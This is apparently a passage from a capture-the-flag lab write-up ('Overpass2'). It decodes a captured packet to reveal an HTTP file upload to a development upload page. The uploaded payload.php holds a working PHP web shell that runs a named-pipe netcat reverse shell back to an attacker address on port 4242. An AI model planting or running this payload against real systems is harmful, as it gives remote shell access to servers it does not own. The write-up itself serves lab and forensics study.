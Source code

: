     ```bash
   $ nano hex-payload
   $ cat hex-payload | xxd -p -r

    )n
    )�E�
    '�������������vP��r�:
    ��+5P,�POST /development/upload.php HTTP/1.1
    Host: 192.168.170.159
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://192.168.170.159/development/
    Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
    Content-Length: 454
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1

    -----------------------------1809049028579987031515260006
    Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
    Content-Type: application/x-php

    <?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

    -----------------------------1809049028579987031515260006
    Content-Disposition: form-data; name="submit"

    Upload File
    -----------------------------1809049028579987031515260006--
    ```
    
![Overpass2 - Payload](Images/overpass2-payload.png)
